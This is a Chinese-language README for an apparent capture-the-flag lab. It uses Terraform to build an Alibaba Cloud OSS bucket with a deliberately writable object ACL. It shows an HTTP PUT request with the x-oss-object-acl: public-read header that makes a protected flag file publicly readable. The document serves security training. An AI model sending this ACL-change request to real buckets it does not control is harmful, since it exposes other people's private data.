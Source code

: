 # 描述

[English](./README.md) | 中文

这是一个可以帮你快速构建存储桶对象ACL可读写场景的脚本。
虽然你在实际环境中可能不会遇到，但是玩的愉快

## Git clone

```bash
cd /TerraformGoat/aliyun/oss/object_acl_writable/ 
```

配置阿里云访问凭证

```shell
aliyun configure
```

> 在阿里云控制台的 [AccessKey 页面](https://ram.console.aliyun.com/manage/ak) 可以创建和查看您的 AccessKey

```bash
terraform init
terraform apply
```

在确认没有问题后，输入yes回车即可快速构建

直接访问该存储桶的/flag.txt

![image-20220425190700830](../../../images/image-20220425190700830.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Error>
  <Code>AccessDenied</Code>
  <Message>You do not have read permission on this object.</Message>
  <RequestId>626680CFF343753037B4C0F6</RequestId>
  <HostId>hx-cloud-security-ctf-v5f29.oss-cn-beijing.aliyuncs.com</HostId>
</Error>
```

但是我们可以通过*?acl*来查看这个对象的ACL权限

![image-20220425190747906](../../../images/image-20220425190747906.png)

随后可以通过PUT方法，将对象的ACL修改为public-read即可，我们需要在请求头添加*x-oss-object-acl*参数

```http
PUT /flag.txt?acl HTTP/1.1
Host: hx-cloud-security-ctf-v5f29.oss-cn-beijing.aliyuncs.com
x-oss-object-acl: public-read
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: image/avif,image/webp,*/*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://hx-cloud-security-ctf-v5f29.oss-cn-beijing.aliyuncs.com/
```

![image-20220425190836248](../../../images/image-20220425190836248.png)

成功修改了对象的ACL，现在使用GET方法来获取

![image-20220425191033750](../../../images/image-20220425191033750.png)

## 销毁挑战

```bash
terraform destroy
```

随后输入yes，等待销毁即可
